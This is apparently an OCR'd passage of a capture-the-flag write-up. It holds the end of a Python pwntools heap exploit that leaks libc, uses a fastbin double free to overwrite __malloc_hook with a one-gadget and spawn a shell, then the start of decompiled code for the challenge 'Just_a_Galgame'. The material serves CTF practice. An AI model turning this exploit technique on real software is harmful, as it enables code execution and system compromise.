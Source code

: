 ```python  
    p.recvuntil("index: ")
    p.sendline(str(index))
    p.recvuntil("note:")
    p.send(content)
def reset(name,motto,size):
    p.recvuntil(">> ")
    p.sendline("5")
    p.sendafter('Input your name:',name)
    p.sendafter('Input your motto:',motto)
    p.sendlineafter('Input your age:',str(size))
def welcome(name,motto,size):
    p.sendafter('Input your name:',name)
    p.sendafter('Input your motto:',motto)
    p.sendlineafter('Input your age:',str(size))

welcome("N","N",1)
add(0,0x100)
add(1,0x18)
add(2,0x60)
add(3,0x60)
add(4,0x60)
free(0)
add(0,0x100)
show(0)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr - 0x3c4b78
log.success("libc_base==>" + hex(libc_base))
malloc_hook = libc_base + libc.sym['__malloc_hook']
onegg = libc_base + 0xf1207

free(0)
free(1)
reset("n"*0x18,"N",0xe1)
free(2)
add(0,0x60)
add(1,0x60)
free(1)
free(0)
free(1)
add(3,0x60)
edit(3,p64(malloc_hook - 0x23))
add(0,0x60)
add(1,0x60)
add(2,0x60)
edit(2,"a"*0x13 + p64(onegg))

free(0)
add(0,0x60)

p.interactive()
```
## Just_a_Galgame  
```C++
__int64 __fastcall main(__int64 a1, char **a2, char **a3, double a4)
{
  unsigned int v4; // eax
  int v5; // eax
  bool v6; // cf
  bool v7; // zf
  signed __int64 v8; // rcx
  const char *v9; // rsi
```